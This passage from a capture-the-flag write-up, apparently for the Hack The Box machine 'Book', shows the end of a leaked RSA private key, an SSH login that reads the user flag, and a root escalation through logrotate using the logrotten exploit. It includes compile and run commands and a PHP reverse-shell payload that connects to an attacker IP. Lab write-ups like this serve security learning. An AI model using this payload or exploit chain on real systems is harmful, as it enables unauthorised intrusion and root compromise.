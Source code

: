 ```
Pb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7IUwfIBFnzqZ27pOAMYkh
sMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyfcdwQHc2XoY8YCf
tdBBP0Uv2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZXndVc/zLi
5bBLnzECgYEAlLiYGzP92qdmlKLLWS7nPM0YzhbN9q0qC3ztk/+1v8pjj162pnlW
y1K/LbqIV3C01ruxVBOV7ivUYrRkxR/u5QbS3WxOnK0FYjlS7UUAc4r0zMfWT9TN
nkeaf9obYKsrORVuKKVNFzrWeXcVx+oG3NisSABIprhDfKUSbHzLIR4=
-----END RSA PRIVATE KEY-----
```

We then `chmod 700` the file and ssh into the box as `reader` and read the use flag.
```bash
kali@kali:~/boxes/book$ ssh -i id_rsa reader@book.htb

reader@book:~$ ls
backups  lse.sh  user.txt
reader@book:~$ cat user.txt
51c1d4b51{...}}
```

# ROOT

## enumeration
After running pspy we realise that logrotate is running as root.

After some reasearching we find a github that has an explpoit [exploit](https://github.com/whotwagner/logrotten).

## exploitation

Exploitation steps:


```bash
reader@book:~$ cd /tmp
reader@book:/tmp$ mkdir shell
reader@book:/tmp$ cd  shell
reader@book:/tmp/shell$ nano logrotten.c
reader@book:/tmp/shell$ gcc -o logrotten logrotten.c

reader@book:/tmp/shell$ nano payload
reader@book:/tmp/shell$ ./logrotten -p ./payload /home/reader/backups/access.log
Waiting for rotating /home/reader/backups/access.log...
```
payload file:
```php
php -r '$sock=fsockopen("10.10.xx.xx",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
we have to echo data to the logs file to make it rotate otherwise it wont do anything
```bash
reader@book:~/backups$ cat access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
```
